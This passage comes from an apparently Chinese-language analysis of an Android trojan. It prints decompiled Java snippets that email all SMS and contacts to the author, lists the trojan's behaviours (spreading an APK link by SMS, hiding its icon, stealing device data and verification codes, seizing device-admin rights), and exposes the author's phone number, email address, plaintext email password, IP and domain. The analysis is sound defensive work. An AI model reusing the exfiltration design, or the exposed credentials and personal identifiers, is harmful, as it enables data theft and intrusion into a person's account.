 ```java
    // 5. 重头戏来了, 将所有的短信和联系人已邮件的形式发送到13097169061@wo.cn的邮箱
    if (SharedPreferencesManager.getInstance(this).getEmailMessageContactsSwitch()) {
      MessageSender.start(this);
    }
    // 6.获取超级管理员权限，并启动服务
    getSuperPermission();
  }
```
我们再来看看启动了服务后又干了些什么，服务无非就是让系统能够常驻内存，监听新的短信和设备状态变化，以随时发送和接收相关的信息。

关于程序其他方面的分析，如架构啊、流程等方面的分析个人觉得没有什么分析的价值，从技术角度来说，这个程序写的很烂，当然，在当时的技术水平条件下也应该是比较可以的了。目前的6.0以上的系统上，由于系统权限的严格控制，想要做这些事情已经很难了。

整个木马在数据的上传方面还是比较落后的，目前看来没有用到网络上传的方式，而是采用了邮箱和短信的方式，这样个木马病毒的追踪带来了一些方便。

程序中使用到了javamail_forAndroid 用于发送邮件，这个开源库的使用还是值得我们学习的。

吐槽：
看到下面这样的代码，我只想骂回去！由此可见作者的素质...
```java
public void setNiMa(String paramString) {
    SharedPreferences.Editor localEditor = this.preferences.edit();
    localEditor.putString("cao_ni_ma_pojie_wo_de_mazi", paramString);
    localEditor.commit();
  }
  public String getNiMa() {
    return this.preferences.getString("cao_ni_ma_pojie_wo_de_mazi", "000000");
  }
  public void setNi2Ma(String paramString) {
    SharedPreferences.Editor localEditor = this.preferences.edit();
    localEditor.putString("cao_ni_ma_pojie_wo_de_mazi2", paramString);
    localEditor.commit();
  }
  public String getNi2Ma() {
    return this.preferences.getString("cao_ni_ma_pojie_wo_de_mazi2", "000000");
  }
```

3. 敏感字符串
```java 
# 木马作者手机号：1309716**** 1875007****

# 木马作者邮箱号：1309716****@wo.cn

# 木马作者邮箱密码：qq123123

# 木马散播主机：45.127.97.231 

# 相关域名：bugydq.science

```

四、 行为分析
1. 从数据库读取联系人并发送内容为“***：酒筵,恭请阁下光临，邀请函： 103.226.126.27/15/2.apk”的短信
2. 隐藏应用程序图标。如果设置一个app的mainActivity为COMPONENT_ENABLED_STATE_DISABLED状态,则不会再launcher的程序图标中发现该app
3. 获取手机IMEI信息、手机型号、手机品牌、系统版本等信息，并将这些消息裁剪成70个字符后，替换掉敏感字符，发送给13097169061
4. 删除已经发送的消息记录
5. 重头戏来了, 将所有的短信和联系人已邮件的形式发送到13097169061@wo.cn的邮箱
6. 获取超级管理员权限，并启动服务，监听系统状态和短信，彩信及网络状态
7. 如果后续收到验证码也会及时发送给木马作者，多么恐怖的一件事。
